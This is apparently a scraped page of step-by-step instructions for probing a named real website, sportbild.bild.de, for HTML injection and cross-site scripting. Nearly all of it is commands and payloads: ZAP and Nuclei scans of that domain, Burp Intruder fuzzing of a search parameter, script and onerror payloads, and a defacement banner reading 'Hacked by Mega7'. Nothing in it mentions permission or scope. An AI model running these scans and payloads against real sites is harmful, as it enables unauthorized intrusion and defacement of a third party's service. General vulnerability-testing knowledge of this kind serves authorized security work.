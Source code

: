 **Steps to Find HTML Injection**:
1. **Crawl the Application**:
   - Use OWASP ZAP or Burp Suite’s Spider to map endpoints (e.g., `/themes`, `/search`).
   - Example:
     ```bash
     zap-cli spider https://sportbild.bild.de
     ```

2. **Inject Test Payloads**:
   - Send HTML payloads to input fields (e.g., forms, query parameters):
     ```html
     <b>Test</b>
     <div style="color:red;">Hacked</div>
     <img src=x onerror=alert('XSS')>
     ```
   - Use Burp Intruder to fuzz inputs:
     - Payload list: `<h1>Test</h1>`, `<script>alert(1)</script>`, etc.
     - Target: `q` parameter in `/themes?q=`.

3. **Analyze Responses**:
   - Check if the payload is reflected as HTML (e.g., `<b>Test</b>` renders as bold text).
   - Look for JavaScript execution (e.g., alert pop-up for `<img src=x onerror=alert('XSS')>`).
   - Example: In Burp Repeater, send:
     ```http
     GET /themes?q=<b>Test</b> HTTP/1.1
     Host: sportbild.bild.de
     ```
     - If response contains `<b>Test</b>` and browser renders it bold, it’s HTML injection.

4. **Confirm It’s HTML Injection**:
   - **HTML Injection**: Payloads like `<b>Test</b>` or `<div style="color:red;">Test</div>` render as HTML but don’t execute scripts unless JavaScript is included (e.g., `onerror`).
   - **XSS**: Payloads like `<script>alert(1)</script>` execute JavaScript, confirming XSS (a subset of HTML injection).
   - **False Positives**: If `<b>Test</b>` is escaped (e.g., `&lt;b&gt;Test&lt;/b&gt;`), it’s not vulnerable.
   - Use payloads that avoid JavaScript to isolate HTML injection:
     ```html
     <h1>Hacked by Mega7</h1>
     ```

5. **Automate with Tools**:
   - OWASP ZAP active scan:
     ```bash
     zap-cli active-scan --recursive https://sportbild.bild.de
     ```
   - Nuclei with HTML injection templates:
     ```bash
     nuclei -u https://sportbild.bild.de -t injection/html-injection
     ```

**How to Definitively Confirm HTML Injection**:
- **Rendering Check**: The injected HTML (e.g., `<b>Test</b>`) renders as formatted text (bold) in the browser, not as raw text.
- **No Script Execution**: Non-JavaScript payloads (e.g., `<div>`) render, but `<script>` doesn’t execute unless XSS is also present.
- **Context**: Reflection in HTML context (e.g., `<div>[user_input]</div>`) vs. JavaScript context (e.g., `<script>var x='[user_input]';</script>`).
- **Response Analysis**: Use browser DevTools to confirm the DOM includes the injected HTML tags.

---